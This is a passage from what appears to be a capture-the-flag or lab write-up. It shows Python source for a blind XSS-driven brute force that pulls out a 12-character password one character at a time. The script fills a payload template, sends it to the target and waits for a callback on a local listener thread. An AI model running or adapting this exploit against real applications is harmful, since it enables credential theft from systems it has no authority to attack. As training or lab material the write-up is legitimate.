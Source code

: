 ```py
    # Create the event object and start the server in a separate thread
    event = threading.Event()
    server_thread = threading.Thread(target=start_server, args=(event,))
    server_thread.daemon = True
    server_thread.start()

    try:
        # Brute-force logic
        password = ""
        while len(password)  != 12:
            for c in string.printable.split(' ')[0]:
                if c not in ['*','+','.','?','|', '#', '&', '$']:
                    variable_dict = {"char": password + c}
                    with open(xss_template, 'r') as fr:
                        with open(xss_payload, 'w') as fw:
                            fw.write(re.sub(r"{(\w+?)}", lambda match: variable_dict[match.group(1)], fr.read()))
                    send_request(ip=lhost, fn=xss_payload)
                    is_set = event.wait(timeout=60)  # Wait for the event to be set
                    for i in range(4):  # 4 re-try for every payload
                        if not is_set:  # if timeout error
                            print("[!] Timeout occurred, sending request again")
                            send_request(ip=lhost, fn=xss_payload)
                            is_set = event.wait(timeout=60)
                    event.clear()  # Reset the event for the next iteration
                    if message_received:
                        print("Found valid char:",c)
                        message_received = False
                        password += c
                        break
        print(password)

    except KeyboardInterrupt as e:
        print(e)
    except Exception as e:
        print(e)
    finally:
        import os; [os.remove(f) for f in [xss_template, xss_payload] if os.path.isfile(f)]

```

![](screenshots/remote-staffroom-app-nosqli-2.png)

